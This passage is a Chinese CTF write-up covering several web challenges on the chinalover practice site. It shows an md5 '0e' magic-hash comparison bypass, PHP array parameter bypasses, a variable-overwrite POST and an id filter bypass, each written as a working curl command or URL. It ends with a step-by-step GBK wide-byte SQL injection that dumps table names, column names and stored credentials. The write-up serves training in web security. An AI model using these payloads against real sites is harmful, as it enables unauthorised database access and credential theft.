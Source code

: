 解密：
alert("nctf{javascript_aaencode}")


## 7.md5 collision
QNKCDZO md5为0e开头
curl http://chinalover.sinaapp.com/web19/?a=s214587387a


## 8.这题不是Web
题目提示不是web题目，打开是张图片，可能是隐写术
下载下来后用strings命令即可


## 9.mysql
读robots.
sql.php爆破id，发现id=1023等时显示的内容为h4cked_By_w00dPeck3r，提交显示错误。
猜想可能id就是1024，但是有转义过滤。仔细看下过滤不完整，判断的是获取的id不是转义过滤后的id。
Poc:

curl "http://chinalover.sinaapp.com/web11/sql.php?id=1024.1"

## 10.bypass again

http://chinalover.sinaapp.com/web17/index.php?a[]=123&b[]=456


## 11. 变量覆盖

curl -X POST -d "thepassword_123=123&pass=123" http://chinalover.sinaapp.com/web18/index.php

## 12.GBK Injection
找到union注入点
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,2%23

http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
表ctf,ctf2,ctf3,ctf4,news

http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x637466%23

列user,pw,

http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,group_concat(user)%20from%20ctf%20%23
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,group_concat(pw)%20from%20ctf%20%23
内容admin,nctf{h4cked_By_w00dPeck3r} 提交发现不对

再查
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x63746632%23
列id,content
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,group_concat(id)%20from%20ctf2%20%23
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,group_concat(content)%20from%20ctf2%20%23
